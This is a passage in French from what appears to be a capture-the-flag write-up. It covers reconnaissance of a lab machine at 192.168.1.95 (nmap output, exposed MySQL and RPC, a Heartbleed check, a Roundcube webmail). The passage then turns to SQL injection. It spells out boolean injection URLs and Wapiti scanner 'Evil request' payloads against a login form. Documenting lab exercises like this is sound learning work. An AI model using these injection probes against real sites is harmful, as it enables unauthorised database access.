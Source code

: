 ```plain
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
```

Les services ouverts sont pour le moins classiques mis à part qu'un administrateur éviterait d'exposer le MySQL et le RPC sur Internet.  

Le site "en clair" et celui sur HTTPS renvoient les même pages. Le HTTPS n'est pas vulnérable au bug *Heartbleed* (petit test histoire de, mais on en aurait probablement rien fait pour ce CTF).  

Dans les pages on trouve un lien vers /mail/ qui correspond à un *Roundcube* (un webmail dans la lignée de *Horde* et *SquirrelMail*).  

Dans les pages originales créées pour le site ou trouve un paramètre qui semble particulièrement réceptif à une possible injection SQL.  

Par exemple pour l'URL :

```plain
http://192.168.1.95/?id=3
```

on obtient un article titré "Praesent magna est".  

Si on rajoute un OR 1 :

```plain
http://192.168.1.95/?id=3%20or%201
```

alors tous les articles semblent retournés  

alors qu'avec un AND 1 :

```plain
http://192.168.1.95/?id=3%20and%201
```

on retrouve seulement le "Praesent magna est".  

pour terminer avec un AND 0 :

```plain
http://192.168.1.95/?id=3%20and%200
```

aucun article n'est renvoyé  

On lance tout de même *Wapiti* qui confirme la vulnérabilité et en trouve d'autres au passage :  

```plain
[+] Lancement du module sql
Injection MySQL dans http://192.168.1.95/?action=login via une injection dans le paramètre username
Evil request:
POST /?action=login HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/?action=login
Content-Type: application/x-www-form-urlencoded

username=%BF%27%22%28&password=letmein

Injection MySQL dans http://192.168.1.95/index.php?action=login via une injection dans le paramètre username
Evil request:
POST /index.php?action=login HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/index.php?action=login
Content-Type: application/x-www-form-urlencoded

username=%BF%27%22%28&password=letmein

[+] Lancement du module xss

```